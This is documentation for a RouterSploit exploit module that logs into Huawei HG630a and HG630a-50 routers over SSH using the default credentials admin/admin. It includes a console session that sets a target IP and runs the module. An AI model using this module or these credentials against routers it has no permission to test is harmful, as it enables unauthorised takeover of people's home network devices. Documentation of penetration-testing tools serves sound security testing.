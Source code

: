 # Huawei HG630a Default Credentials

## Description
Module exploits default SSH credentials Huawei HG630a and HG630a-50 devices. If the target is vulnerable it is possible to authenticate through SSH service.

## Authors
* Murat Sahin (@murtshn) # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/38663/](https://www.exploit-db.com/exploits/38663/)

## Vulnerable devices
* Huawei HG630a
* Huawei HG630a-50

## Usage
```
rsf > use exploits/huawei/hg630a_default_creds
rsf (Huawei HG630a Default Credentials) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   password     admin                Default password to log in with
   user         admin                Default username to log in with


rsf (Huawei HG630a Default Credentials) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Huawei HG630a Default Credentials) > run
[*] Running module...
```
